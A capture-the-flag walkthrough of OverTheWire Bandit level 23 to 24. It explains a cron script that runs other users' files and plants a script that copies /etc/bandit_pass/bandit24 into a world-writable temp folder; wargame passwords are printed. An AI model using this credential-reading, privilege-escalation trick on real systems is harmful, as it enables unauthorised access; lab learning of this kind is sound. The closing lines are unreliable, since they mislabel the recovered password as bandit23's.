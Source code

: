# Bandit Level 23 -> Level 24 #

https://overthewire.org/wargames/bandit/bandit24.html

## SSH Access Details ##
**Username:**  bandit23

**Password:**  QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
#

## Level Goal : ##
>A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
>
>**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
>
>**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level : ##
cron, crontab, crontab(5) (use “man 5 crontab” to access this)


#  
## PROCEDURE : ##

Similarly to our previous two tasks, we can start by looking at the contents of the `/etc/cron.d` directory and at the contents of `cronjob_bandit24` since that is the user for which we are trying to discover the password.
```console
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

We can see that a script `/usr/bin/cronjob_bandit24.sh` is being run every minute, and we can use the command `cat /usr/bin/cronjob_bandit24.sh` to see what the bash script contains:

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break-down this code line-by-line
- `#!/bin/bash`: Declares this file as a bash script
- `myname=$(whoami)`: Runs the `whoami` command and saves it to a variable called `$myname`  in our case this variable will contain `bandit24` since that is username for the user running the script (and therefore the output of the `whoami` command)
- `cd /var/spool/$myname/foo`: Changes the working directory to `/var/spool/bandit24/foo`
- `echo "Executing and deleting all scripts in /var/spool/$myname/foo:"`: Output a message to screen that says that all scripts in `/var/spool/bandit24/foo` are being deleted.
- `for i in * .*;`: A **for loop** is initiated to iterate through all the files in the directory (`.*`)
  -  `if [ "$i" != "." -a "$i" != ".." ];` This checks to see whether the current file being looked at by the for loop is called `.` or `..` in which case they are ignored.  `.` represents the current directory, i.e. `foo` and `..` represents the parent directory, i.e. `bandit24`.
  - Provided that the file is neither of these two, the following actions are performed:
      -  `echo "Handling $i"`: Outputs the filename of the file being handled to screen
      -  `owner="$(stat --format "%U" ./$i)"`: Stores information about the owner of a the file in a variable called `$owner`
      -  `if [ "${owner}" = "bandit23" ]; then`: Checks whether the owner of the file is `bandit23`.  If it is, it will perform the following:
          -  `timeout -s 9 60 ./$i`: **It will execute the file** using `./$i` (remember that `$i` contains the filename of the current file in the for loop).  The script then waits 60 seconds before sending a KILL command to terminate the process (`9` is an alias for the KILL command).    
- ` rm -f ./$i` Provided that the filename is not `.` or `..` and that the owner is not `bandit23`, the file is deleted


This is a very interesting discovery as we now know that any script file created by the user `bandit23` (that's us) in the folder `/var/spool/bandit24/foo` will be executed once every minute by this cronjob and what's more - it will be executed as the user `bandit24`!

Now it's just a matter of taking what we learnt in the previous two tasks and putting it together to build our own script.  It's also important to keep in mind what user will be runnign this script and what file permissions each user has.

Let's start by creating a temporary directory we can work in using `mkdir` and creating two files inside called `gimmepass.sh` (which will be our script file) and `password` which will be our output file.
```console
bandit23@bandit:~$ mkdir /tmp/gimmepass
bandit23@bandit:~$ cd /tmp/gimmepass
bandit23@bandit:/tmp/gimmepass$ touch password
bandit23@bandit:/tmp/gimmepass$ touch gimmepass.sh
```

Now we can use `nano` as our text editor to edit the script file

```console
bandit23@bandit:/tmp/gimmepass$ nano gimmepass.sh
```

The bash script itself is a simple one-line script that takes the contents of `/etc/bandit_pass/bandit24` and outputs them to the `password` file we created earlier.
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/gimmepass/password
```

Now, keep in mind that `gimmepass.sh` and `password` as well as the whole `/tmp/gimmepass` directory was created by our user; `bandit23`.  On the other hand, the cronjob will be run by user `bandit24` which doesn't have write permissions to this directory.  We can fix this by granting write permissions to this directory and its contents to all the users using the `chmod` command:

```console
bandit23@bandit:/tmp/gimmepass$ chmod 777 -R /tmp/gimmepass
```

Now we just have to wait a minute or two until the next scheduled cronjob runs and executes our script.  We can keep looking inside the `password` file until it is updated with the password for `bandit24`:

```console
bandit23@bandit:/tmp/gimmepass$ cat password
bandit23@bandit:/tmp/gimmepass$ cat password
bandit23@bandit:/tmp/gimmepass$ cat password
bandit23@bandit:/tmp/gimmepass$ cat password
bandit23@bandit:/tmp/gimmepass$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```



QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


And - as expected - it contains the password for `bandit23`.
